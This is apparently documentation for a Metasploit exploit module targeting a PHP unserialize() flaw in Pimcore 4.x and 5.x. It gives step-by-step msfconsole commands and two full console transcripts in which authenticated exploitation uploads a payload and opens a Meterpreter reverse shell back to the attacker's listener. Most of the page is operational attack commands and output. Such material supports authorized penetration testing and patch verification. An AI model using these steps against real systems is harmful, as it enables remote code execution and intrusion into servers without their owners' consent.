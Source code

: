 ## Description

This module exploits a PHP (unserialize()) in Pimcore before 5.7.1 to execute arbitrary code. An authenticated user with "classes" permission could exploit the vulnerability.

The vulnerability exists in the "ClassController.php" class, where the "bulk-commit" method make it possible to exploit the unserialize function when passing untrusted values in "data" parameter.

Tested on Pimcore 5.4.0-5.4.4, 5.5.1-5.6.6 with the Symfony unserialize payload.

Tested on Pimcore 4.0.0-4.6.5 with the Zend unserialize payload.

## Vulnerable Application

Affecting Pimcore, version 5.x <= 5.6.6 and 4.x.

## Verification Steps

Set up a default installation of Pimcore 4.x or 5.x (e.g.: `composer create-project pimcore/skeleton my-project` for the 5.x branch) as described on [Pimcore Installation documentation](https://pimcore.com/docs/5.x/Development_Documentation/Getting_Started/Installation.html) then:

1. Start `msfconsole`
2. `use exploit/multi/http/pimcore_unserialize_rce`
3. `set RHOST <IP>`
4. `set USERNAME <USERNAME>`
5. `set PASSWORD <PASSWORD>`
6. `check`
7. You should see `The target service is running, but could not be validated.`
8. `exploit`
9. You should get a meterpreter session!

## Options

* **TARGETURI**: Path to Pimcore installation (“/” is the default)
* **USERNAME**: Username to authenticate with
* **PASSWORD**: Password to authenticate with

## Scenarios

### Tested on Pimcore 5.6.6

```
msf5 > use exploit/multi/http/pimcore_unserialize_rce 
msf5 exploit(multi/http/pimcore_unserialize_rce) > set rhost target.com
rhost => target.com
msf5 exploit(multi/http/pimcore_unserialize_rce) > set rport 8566
rport => 8566
msf5 exploit(multi/http/pimcore_unserialize_rce) > set username admin
username => admin
msf5 exploit(multi/http/pimcore_unserialize_rce) > set password pimcore
password => pimcore
msf5 exploit(multi/http/pimcore_unserialize_rce) > check
[*] 192.168.2.59:8566 - The target service is running, but could not be validated.
msf5 exploit(multi/http/pimcore_unserialize_rce) > exploit

[*] Started reverse TCP handler on 10.0.8.2:4444 
[+] Authentication successful: admin:pimcore
[*] Pimcore version: 5.6.6
[*] Pimcore build: 9722d19576f9e49969d4a3708e045fa481eaad02
[+] The target is vulnerable!
[+] JSON paylod uploaded successful: /var/www/html/var/tmp/bulk-import.tmp
[*] Selected payload: Pimcore 5.x (Symfony unserialize payload)
[*] Sending stage (38247 bytes) to 192.168.2.59
[*] Meterpreter session 1 opened (10.0.8.2:4444 -> 192.168.2.59:34128) at 2019-04-07 12:04:08 +0200
[!] This exploit may require manual cleanup of '/var/www/html/var/tmp/bulk-import.tmp' on the target

meterpreter > 
[+] Deleted /var/www/html/var/tmp/bulk-import.tmp

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.2.59 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/pimcore_unserialize_rce) > 
```

### Tested on Pimcore 4.6.5

```
msf5 > use exploit/multi/http/pimcore_unserialize_rce 
msf5 exploit(multi/http/pimcore_unserialize_rce) > set rhost target.com
rhost => target.com
msf5 exploit(multi/http/pimcore_unserialize_rce) > set rport 8465
rport => 8465
msf5 exploit(multi/http/pimcore_unserialize_rce) > set username admin
username => admin
msf5 exploit(multi/http/pimcore_unserialize_rce) > set password P1mc0r3_4dm1n
password => P1mc0r3_4dm1n
msf5 exploit(multi/http/pimcore_unserialize_rce) > check
[*] 192.168.2.59:8465 - The target service is running, but could not be validated.
msf5 exploit(multi/http/pimcore_unserialize_rce) > exploit

[*] Started reverse TCP handler on 10.0.8.2:4444 
[+] Authentication successful: admin:P1mc0r3_4dm1n
[*] Pimcore version: 4.6.5
[*] Pimcore build: 4123
[+] The target is vulnerable!
[+] JSON paylod uploaded successful: /var/www/html/website/var/system/bulk-import.tmp
[*] Selected payload: Pimcore 4.x (Zend unserialize payload)
[*] Sending stage (38247 bytes) to 192.168.2.59
[*] Meterpreter session 1 opened (10.0.8.2:4444 -> 192.168.2.59:57882) at 2019-04-07 12:00:20 +0200
[+] Deleted /var/www/html/website/var/system/bulk-import.tmp

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.2.59 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/pimcore_unserialize_rce) > 
```